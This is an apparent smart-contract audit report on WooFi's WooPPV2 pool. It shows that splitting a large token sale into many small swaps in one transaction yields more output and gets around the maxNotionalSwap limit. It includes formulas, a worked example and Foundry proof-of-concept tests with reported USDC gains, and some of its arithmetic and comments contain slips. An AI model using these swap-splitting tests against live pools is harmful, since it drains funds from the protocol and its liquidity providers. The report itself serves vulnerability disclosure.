 Icy Denim Cougar

high

# Selling partial base tokens are more profitable then selling in one go

## Summary
Selling base tokens partially instead of one go is always more profitable 
## Vulnerability Detail
First, let's write down our formulas of sellBase tokens for quoteTokens:
g: gamma
s: spread
c: coefficient
p: price
np: new price (price after selling base tokens) 

**g = deltaBase * p * c**
**deltaQuote = deltaBase * p * (1 - (g + s))**
**np = p * (1 - g)**

Code snippet for the above formulas:
https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L591-L619

Here I graphed both `sellQuote` and `sellBase` functions:
https://www.desmos.com/calculator/svmjlxhavw

As we can observe, if the price is >1 then the selling base tokens (red in the graph) will start decreasing after it reaches the middle value. Same happens vice versa when price is <1 for selling quote tokens (blue in the graph). This heavily incentivise smaller swaps and heavily disincentives bigger swaps. Also, since selling smaller amounts are ALWAYS more profitable, `maxGamma` and `maxNotionalSwap` values can be bypassed without a loss (even for profits) 

**Textual PoC:**
Now, let's do a textual example to see whether selling 20 base tokens is profitable then selling 2 times 10 base tokens
For this example, let's assume:
p = 1
c = 0.01
s = 0.1 
and there are no swap fees for simplicity.

First, let's sell 20 base tokens:
g = 20 * 1 * 0.01 = 0.2
deltaQuote = 20 * 1 * (1 - (0.1 + 0.1)) = 14
**quote tokens received will be 14**

Now, let's sell 10 base tokens in 2 times in a single transaction:
g1 = 10 * 1 * 0.01 = 0.1
deltaQuote1 = 10 * 1 * (1- (0.1 + 0.1)) = 8
np = 1 * (1 - 0.1) = 0.9
**received 8 quote tokens in first sell of 10 base tokens**

g2 = 10 * 0.9 * 0.01 = 0.09
deltaQuote2 = 10 * 0.9 * (1 - (0.1 + 0.09)) = 7.29
**received 7.29 quote tokens in second sell of 10 base tokens**

**in total 7.29 + 8 = 15.29 quote tokens received! however, if we were to swap 10 tokens in one go we would end up with 14 quote tokens!** 

This also means that swaps that are not possible because of `maxNotionalSwap` can be divided into partial swaps and the end result would be even higher!
If the `maxNotionalSwap` is 100K USDC, someone can swap 2 times 50K USDC to receive even higher amount of quote tokens! Hence, the exploit that happent to WooFi would still be possible and even worse since the partial swaps are better than single go.

Here a test where it compares selling 1000 WETH in one go, 500-500 and 1-1-1-... 1000 times in a single tx:
```solidity
// @dev fee is "100", coeff = 0.000000001 * 1e18, spread = 0.001 * 1e18 as in the tests
    // setting fee to a different value is not relevant, attack is still there, just slighly less profitable
    
    // @dev sell 1000 in single tx
    function test_SellBase1Part() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);

        vm.prank(TAPIR);
        uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount, 0, payable(TAPIR), TAPIR);

        console.log("Received USDC", receivedUSDC);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }

    // @dev sell 500-500 in single tx
    function test_Sell2Parts() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);
        
        uint cumulative;
        for (uint i; i < 2; ++i) {
            // sell 5 wei dust
            vm.prank(TAPIR);
            uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount / 2, 0, payable(TAPIR), TAPIR);
            (uint128 price, ) = oracle.woPrice(WETH);
            cumulative += receivedUSDC;
        }

        console.log("Received USDC", cumulative);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }

    // @dev sell 1-1-1-1.... in single tx
    function test_Sell1000Parts() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);
        
        uint cumulative;
        for (uint i; i < 1000; ++i) {
            // sell 5 wei dust
            vm.prank(TAPIR);
            uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount / 1000, 0, payable(TAPIR), TAPIR);
            (uint128 price, ) = oracle.woPrice(WETH);
            cumulative += receivedUSDC;
        }

        console.log("Received USDC", cumulative);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }
```

**Results:**
Selling 500-500 instead of 1000 in one go: 3395.800042 USDC more received
Selling 1-1-1-1-... 1000 times instead 1000 in one go: 6776.505788 USDC more received! 

## Impact
Breaking the `maxNotionalSwap` amount and unfair AMM model
## Code Snippet

## Tool used

Manual Review

## Recommendation
